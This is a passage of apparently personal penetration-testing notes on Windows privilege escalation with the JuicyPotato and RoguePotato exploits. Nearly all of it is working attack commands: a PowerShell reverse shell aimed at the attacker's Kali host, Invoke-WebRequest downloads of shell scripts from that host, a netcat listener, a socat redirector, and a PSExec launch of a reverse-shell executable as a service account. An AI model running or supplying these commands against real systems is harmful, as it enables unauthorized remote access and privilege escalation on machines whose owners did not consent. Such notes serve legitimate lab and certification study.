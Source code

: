 Mousepad shell-2.ps1, include the following at the bottom:

```
Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 444
```

---

```bash - kali
mousepad shell.bat
```

```command prompt - windows
Invoke-WebRequest -Uri 'http://$KALI/shell-2.ps1' -OutFile shell-2.ps1
```

---

```powershell - windows
Invoke-WebRequest -Uri 'http://$KALI/shell.bat' -OutFile shell.bat
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 444
```

```command prompt - windows
JuicyPotato.exe -t * -p shell.bat -l 4444
```

#### Rogue Potato
Latest of the “Potato” exploits.

GitHub: [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)

Blog: [https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)

Compiled Exploit:

[https://github.com/antonioCoco/RoguePotato/releases](https://github.com/antonioCoco/RoguePotato/releases)

1. Copy PSExec64.exe and the RoguePotato.exe exploit executable over to Windows.

2. Set up a socat redirector on Kali, forwarding Kali port 135 to port 9999 on Windows ($TARGET is the Windows IP):

```bash - windows
sudo socat tcp-listen:135,reuseaddr,fork tcp:$TARGET:9999
```

3. Start a listener on Kali.

![[rlwrap]]

4. Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the Local Service service account:

[[1._Reverse Shells (LIN)#MSFVenom]]

```command prompt - windows
C:\PrivEsc\PSExec64.exe /accepteula -i -u "ntauthority\local service" C:\PrivEsc\reverse.exe
```
